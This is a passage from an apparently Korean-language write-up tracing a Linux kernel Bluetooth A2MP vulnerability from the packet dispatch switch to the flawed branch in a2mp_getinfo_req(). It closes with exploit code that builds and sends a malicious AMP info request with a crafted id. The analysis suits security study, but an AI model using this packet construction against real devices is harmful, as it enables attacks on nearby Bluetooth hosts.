 ```c++
		hdr = (void *) skb->data;
		// ...
		mgr->ident = hdr->ident;
		switch (hdr->code) {
		case A2MP_COMMAND_REJ:
			a2mp_command_rej(mgr, skb, hdr);
			break;
		case A2MP_DISCOVER_REQ:
			err = a2mp_discover_req(mgr, skb, hdr);
			break;
		case A2MP_CHANGE_NOTIFY:
			err = a2mp_change_notify(mgr, skb, hdr);
			break;
		case A2MP_GETINFO_REQ:
			err = a2mp_getinfo_req(mgr, skb, hdr); // 취약한 함수
			break;
		// ...
  }
	// ...
}
```
switch문을 보면 `hdr->code`가 `A2MP_GET_INFO_REQ`인 경우 취약한 코드가 존재하는 `a2mp_getinfo_req()` 함수를 호출한다. 즉, 취약함 함수로의 흐름을 만들어주기 위해서는 `hdr->code`를 `A2MP_GET_INFO_REQ`로 설정해서 전송하면 된다. 그렇다면 `A2MP_GET_INFO_REQ`는 어떤 값을 가지고 있을까?
```c++
#define A2MP_GETINFO_REQ         0x06
```
헤더파일(`a2mp.h`)을 살펴보면 위와 같이 `0x06`로 매크로가 설정되어있는 것을 확인할 수 있다. 실제 공격시에는 값을 그대로 넣어도 되지만 `blueZ` 라이브러리에 선언되어있는 매크로를 이용하면 된다. 
```c++
#define AMP_INFO_REQ		0x06
```
`blueZ` 라이브러리의 [lib/amp.h](https://github.com/pauloborges/bluez/blob/master/lib/amp.h) 파일에 `A2MP_GET_INFO_REQ`와 동일하게 `0x06` 값을 가지는 `AMP_INFO_REQ`라는 매크로가 존재한다.

## Analysis #4 취약한 로직으로 흐름 제어
`a2mp_getinfo_req()` 함수로 흐름을 변경했다면, 취약한 코드가 존재하는 if문 내로 분기해야한다. 조건은 아래와 같다.
```c++
hdev = hci_dev_get(req->id);
if (!hdev || hdev->dev_type != HCI_AMP)
```
`hci_dev_get()` 함수가 정상적인 데이터를 반환하지 않거나, `hdev->dev_type`이 `HCI_AMP`가 아니면 취약한 코드로 진입할 수 있다. `hci_dev_get()`은 HCI에 접근하는 코드이므로, 인자로 전달하는 HCI ID가 잘못된다면 비정상적인 hdev를 만들어낼 수 있다.

따라서 exploit 코드에서는 공격 시 `hdr->code`에 `AMP_INFO_REQ`를 담아 아래와 같이 공격을 진행했다.
```c++
printf("[*] Sending malicious AMP info request...\n");
struct {
  l2cap_hdr hdr;
  amp_mgr_hdr amp_hdr;
  amp_info_req_parms info_req;
} packet3 = {0};
packet3.hdr.len = htobs(sizeof(packet3) - L2CAP_HDR_SIZE);
packet3.hdr.cid = htobs(AMP_MGR_CID);
packet3.amp_hdr.code = AMP_INFO_REQ; // a2mp_getinfo_req() 로직으로 유도
packet3.amp_hdr.ident = 0x41;
packet3.amp_hdr.len = htobs(sizeof(amp_info_req_parms));
packet3.info_req.id = 0x42; // !hdev 가 참이 되어 if문 내로 분기하도록 유도
hci_send_acl_data(hci_socket, hci_handle, &packet3, sizeof(packet3));
```
